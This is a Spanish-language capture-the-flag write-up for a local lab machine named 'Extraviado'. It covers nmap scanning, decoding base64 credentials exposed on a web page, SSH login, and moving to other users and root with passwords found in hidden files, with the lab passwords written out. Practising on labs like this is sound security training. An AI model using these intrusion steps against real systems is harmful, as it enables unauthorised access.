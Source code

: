 - Tags: #Extraviado
---
[Maquina Extraviado](https://mega.nz/file/CIMkwajZ#S3NkpK5GTJq043gn4RLQNTYdCASjxYnJzVN8JMSwkD0) -> Enlace de descarga al laboratorio

```bash
7z x extraviado.zip # Descomprimimos el laboratorio
sudo bash auto_deploy.sh extraviado.tar # Desplegamos el laboratorio.
```

### Fase Reconocimiento:
```bash
172.17.0.2 # Direccion IP del target
ping -c 1 172.17.0.2 # Realizamos una traza ICMP para determinar si tenemos conectividad con el target.

wichSystem.py 172.17.0.2 # Determinamo que estamos ante una maquina linux
172.17.0.2 (ttl -> 64): Linux
```

### Fase Enumeracion Puertos:
```bash
escanerTCP.py -t 172.17.0.2 -p1-10000 # Realizamos deteccion de puertos con nuestra herramienta.
nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
extractPorts allPorts # Parseamos la informacion mas relevande del primer escaneo
nmap -sC -sV -p22,80 172.17.0.2 -oN targeted # Realizamos un escaneo exhaustivo para determinar el servicio y la version que corren detras de estos puertos.
```

**( 22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0) )** -> Tenemos un servicio **ssh** expuesto
**( 80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu)) )** -> Tenemos un servico web expuesto: **( ubuntuNoble )**

### Fase Enumeracion Web:
```bash
whatweb http://172.17.0.2 # Realizamos deteccion de las tecnologias de este servicio
```

```bash
.ZGFuaWVsYQ== : Zm9jYXJvamE= # Desde la web tenemos estas cadenas en base64

echo -n "ZGFuaWVsYQ==" | base64 -d # daniela
echo -n "Zm9jYXJvamE=" | base64 -d # focaroja
```

### FAse Intrusion:
Sabiendo que esta expuesto el servicion **ssh** procederemos a intentarnos loguear con esas credenciales expuestas.
```bash
ssh-keygen -R 172.17.0.2 && ssh daniela@172.17.0.2
```

### Fase Escalada Privilegios:
```bash
/home/daniela/.secreto/passdiego # Tenemos un directorio oculto

YmFsbGVuYW5lZ3Jh # Tenemos su contrasena en base64 del usuario: ( diego )
echo -n "YmFsbGVuYW5lZ3Jh" | base64 -d # ballenanegra
```

```bash
su diego # proporcionamos la contrasena: ( ballenanegra ) y ahora podremos migra a este usuario.
/home/diego/.passroot/.pass # Tenemos posiblemente la contrasena de root.

echo -n "YWNhdGFtcG9jb2VzdGE" | base64 -d # acatampocoesta , Pero no es la contrasena correcta
cat .local/share/.- # Tenemos este directorio que podemos investigar

su root # Contasena ( osoazul )
```

